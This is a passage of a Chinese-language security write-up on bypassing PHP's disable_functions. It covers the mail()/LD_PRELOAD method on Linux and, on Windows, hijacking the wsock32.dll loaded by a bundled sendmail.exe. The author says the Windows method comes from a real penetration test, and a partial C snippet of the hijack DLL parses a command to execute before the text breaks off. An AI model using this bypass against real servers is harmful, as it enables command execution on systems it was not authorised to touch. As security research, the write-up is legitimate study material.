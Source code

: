普通用户权限，目标文件被删除。



### 5. 小结

以上方法在**Linux RHEL6及自带邮件服务+php5.3.X以下**平台测试通过，精力有限未继续在其他平台测试，新版本可能进行了相应修复。这种绕过行为其实也很容易防御，禁用相关函数或者限制环境变量的传递，例如安全模式下，这种传递是不会成功的。这个思路不仅仅局限于mail函数，你可以尝试追踪其他函数的调用过程，例如syslog等与系统层有交集的函数是否也有类似调用动态共享库的行为来举一反三。





## 二、 利用mail bypass disable_function 执行命令

最近渗透过程中遇到一个站用了UPUPW_AP5.4来搭建，这个程序是自带了sendmail.exe的，以下是我本地复现的情况：

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3ytbsxg4j2152024dg2.jpg)

当时目标站的disable_function是exec,system,passthru,popen,shell_exec ,proc_open，另外目标站做了`open_basedir`限制，只能访问web目录下面的文件。

在linux下面可以使用pcntl_exec，当然windows下面是没有加载这个扩展的。Google一番发现COM class加载wscript.shell也可以执行命令，然而一样的没有加载这个扩展。

大家都知道在linux上可以用`mail`来`bypass disable_fucntion`来执行命令，因为linux有`LD_PRELOAD`这个环境变量可以很方便的注入进程。那么在windows上呢? 当然也是可以。

但是默认情况下sendmail_path在windows中并没有设置，没有值的话是不行的。UPUPW很贴心的给了我们一个sendmail.exe

Windows下面没有LD_PRELOAD怎么办呢?

当然是DLL劫持!

我们来看一下sendmail的导入表。  

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3yxyycr6j20k50aa3zr.jpg)

找到一个不在knowndlls里面的dll，就是它了，**wsock32.dll**!
由于php的mail函数中的参数5是Additional parameters, 也就是说我们可以给sendmail程序加自定义的命令行！那么思路就是写一个dll解析命令行并且执行命令！

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3z13cwe3j20xk095t9e.jpg)

Dll劫持的代码可以由一个小工具Aheadlib来生成，不过生成的代码是不能用的，会有一千多个错误，简单替换一下就能用了，加入自定义代码如下

```c
int argc = 0;
wchar_t **argv = CommandLineToArgvW(GetCommandLineW(), &argc);
wchar_t *cmd = 0;
wchar_t *outfile = 0;
for (int i = 0; i < argc; i++)
{
        if (!lstrcmp(argv[i], L"-c"))
        if (i + 1 < argc)
        {
                cmd = argv[i + 1];
        }
        if (!lstrcmp(argv[i], L"-o"))
        if (i + 1 < argc)
        {
                outfile = argv[i + 1];
        }
}

if (cmd && outfile)
{
        DWORD tmp = 0;
        HANDLE h = CreateFile(outfile, GENERIC_WRITE, 0, 0, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, 0);
```